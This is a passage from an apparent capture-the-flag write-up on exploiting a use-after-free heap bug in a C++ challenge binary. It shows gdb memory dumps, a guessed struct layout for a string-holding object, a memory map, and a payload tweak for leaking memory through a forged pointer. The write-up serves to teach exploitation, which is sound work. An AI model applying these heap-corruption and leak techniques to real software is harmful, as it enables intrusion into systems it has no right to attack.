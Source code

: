 My hope here is that, in using allocations of different sizes, the merging and reallocation<sup>3</sup> of a freed `foods[2]` will lead to one of the input strings overwriting `*favorites`.

The code above produces a crash somewhere around 20% of the time; here's one possible variant of a crash, where the contents of `favorite` are overwritten with the string data of the 2nd re-allocation: 

```
(gdb) telescope favorite
0x00007ffff76da1c0│+0x0000: "BBBBBBBBBBBBBBBBBBBBBBB"
0x00007ffff76da1c8│+0x0008: "BBBBBBBBBBBBBBB"
0x00007ffff76da1d0│+0x0010: 0x0042424242424242 ("BBBBBBB"?)
0x00007ffff76da1d8│+0x0018: 0x000000000000003c ("<"?)
0x00007ffff76da1e0│+0x0020: 0x0000000000000000
0x00007ffff76da1e8│+0x0028: 0x0000000000000051 ("Q"?)
0x00007ffff76da1f0│+0x0030: 0x0000000000000000
0x00007ffff76da1f8│+0x0038: "ccccccccccccccccccccccccccccccccccccccccccccccc"
0x00007ffff76da200│+0x0040: "ccccccccccccccccccccccccccccccccccccccc"
0x00007ffff76da208│+0x0048: "ccccccccccccccccccccccccccccccc"
```

At this point, it might be helpful to describe my approximation of how `Food`/`Bamboo` is represented in memory:

```cpp
struct Food {
	void **_vtable; // _vtable[0] == Eat()
    basic_string name_;
}
struct basic_string {
    union {
        struct {
            char *p; // when capacity>0xf, p holds a pointer to the actual bytes of the string data.
            size_t size; // don't really know what happens to this for capacity < 0x10
        } 
        char buf[0x10];
    }
    size_t capacity;
} // sizeof(basic_string) == 0x20
```

The invalid `favorite` struct has `favorite->name_.p` pointing to `0x4242424242424242`, which necessarily causes a segfault when dereferenced. If I change `b'B'*0x17` in my exploit code to `fit({8: pack(ptr)})+b'B'*7`, I'll be able to leak the contents of `ptr`.

The conditions are not favorable:

```python
Start              End                Offset             Perm Path
0x00005576017e3000 0x00005576018ca000 0x0000000000000000 r-x chall
0x0000557601ac9000 0x0000557601ad1000 0x00000000000e6000 r-- chall
0x0000557601ad1000 0x0000557601ad2000 0x00000000000ee000 rw- chall
0x0000557601ad2000 0x0000557601ad5000 0x0000000000000000 rw-
0x0000557603514000 0x0000557603535000 0x0000000000000000 rw- [heap]
0x00007f2678706000 0x00007f2678709000 0x0000000000000000 rw-
0x00007f2678709000 0x00007f267872e000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f267872e000 0x00007f26788a6000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788a6000 0x00007f26788f0000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f0000 0x00007f26788f1000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f1000 0x00007f26788f4000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f4000 0x00007f26788f7000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007f26788f7000 0x00007f26788fb000 0x0000000000000000 rw-
0x00007f26788fb000 0x00007f267890a000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f267890a000 0x00007f26789b1000 0x000000000000f000 r-x /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f26789b1000 0x00007f2678a48000 0x00000000000b6000 r-- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f2678a48000 0x00007f2678a49000 0x000000000014c000 r-- /usr/lib/x86_64-linux-gnu/libm-2.31.so
0x00007f2678a49000 0x00007f2678a4a000 0x000000000014d000 rw- /usr/lib/x86_64-linux-gnu/libm-2.31.so
```